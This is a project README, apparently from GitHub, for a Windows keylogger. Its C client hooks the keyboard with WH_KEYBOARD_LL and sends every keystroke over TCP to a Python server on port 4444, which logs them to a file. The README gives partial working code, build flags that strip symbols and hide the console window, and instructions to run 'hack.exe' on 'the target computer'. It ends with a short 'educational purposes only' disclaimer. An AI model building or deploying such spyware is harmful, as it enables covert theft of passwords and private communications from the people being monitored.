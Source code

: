 # Remote Keyboard Monitoring System

This project is a remote keyboard monitoring system that runs on Windows operating system. The system consists of two main components:

1. **Keyboard Monitor (main.c)**: A C program running on Windows that captures keyboard inputs
2. **Server (host.py)**: A Python server program that receives and logs the captured keyboard inputs

## Technical Details

### Client (main.c)
- Uses Windows Low-Level Keyboard Hook (WH_KEYBOARD_LL) for keyboard monitoring
- Implements a callback function (KeyboardProc) to process keyboard events
- Establishes TCP socket connection with the server
- Uses Winsock2 for network communication
- Compilation flags:
  - `-s`: Strip symbols for smaller binary size
  - `-ffunction-sections -fdata-sections`: Enable function and data section optimization
  - `-Wno-write-strings`: Suppress string literal warnings
  - `-fno-exceptions`: Disable exception handling
  - `-fmerge-all-constants`: Merge constants for optimization
  - `-static-libstdc++ -static-libgcc`: Static linking of C++ and GCC libraries
  - `-fpermissive`: Allow non-standard C++ code
  - `-mwindows`: Create Windows GUI application (no console window)
  - `-lws2_32`: Link with Winsock2 library

### Server (host.py)
- Implements a TCP server using Python's socket library
- Listens on port 4444 for incoming connections
- Handles client connections asynchronously
- Logs received data to 'remote_keys.txt' file
- Uses UTF-8 encoding for data handling
- Implements error handling for connection issues

## Code Explanation

### Client Code (main.c)
```c
// Global variables
HHOOK hook;          // Handle to the keyboard hook
LPMSG msg;           // Message structure for Windows messages
bool runThread;      // Control flag for the main loop
SOCKET sock;         // Socket for network communication

// Keyboard hook callback function
LRESULT CALLBACK KeyboardProc(int code, WPARAM wParam, LPARAM lParam) {
    // Process keyboard events when key is pressed
    if(code == HC_ACTION && wParam == WM_KEYDOWN) {
        KBDLLHOOKSTRUCT* p = (KBDLLHOOKSTRUCT*)lParam;
        // Convert virtual key code to character
        char buffer[256];
        DWORD key = p->vkCode;
        char ch = MapVirtualKeyA(key, MAPVK_VK_TO_CHAR);
        // Send the captured key to server
        snprintf(buffer, sizeof(buffer), "key pressed: %c\n", ch);
        send(sock, buffer, strlen(buffer), 0);
    }
    return CallNextHookEx(hook, code, wParam, lParam);
}

// Socket initialization function
bool initSocket(const char* ip, int port) {
    // Initialize Winsock
    WSADATA wsa;
    struct sockaddr_in server;
    // Create socket and connect to server
    // Returns true if connection successful
}
```

### Server Code (host.py)
```python
# Server configuration
HOST = ''           # Listen on all available interfaces
PORT = 4444         # Default port number
OUTPUT_FILE = 'remote_keys.txt'  # Log file name

# Main server loop
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen(1)
    # Accept client connection
    conn, addr = s.accept()
    # Process and log received data
```

## Configuration

### Client Configuration
Before compiling the client, you need to modify the following in `main.c`:
```c
const char* ip = "192.168.1.100";  // Change to your server's IP address
int port = 4444;                   // Change if using different port
```

### Server Configuration
The server's port can be modified in `host.py`:
```python
PORT = 4444  # Change to match client's port
```

## Features

- Real-time keyboard input capture
- Remote server data transmission
- Automatic connection management

## Requirements

### Keyboard Monitor (main.c)
- Windows operating system
- MinGW or Visual Studio (for compilation)
- Winsock2 library

### Server (host.py)
- Python 3.x
- socket library (Python standard library)

## Installation

1. Server side:
```bash
python host.py
```

2. Client side (main.c):
```bash
g++ main.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -mwindows -lws2_32
```

## Usage

1. First, start the server program:
```bash
python host.py
```

2. Run the client program on the target computer:
```bash
hack.exe
```

3. While the program is running:
   - All keyboard inputs are sent to the server
   - Captured keys are saved in `remote_keys.txt` file

## Security Warning

This program is for educational purposes only. Unauthorized use on others' computers may be illegal. Only test on your own systems or systems with proper authorization.

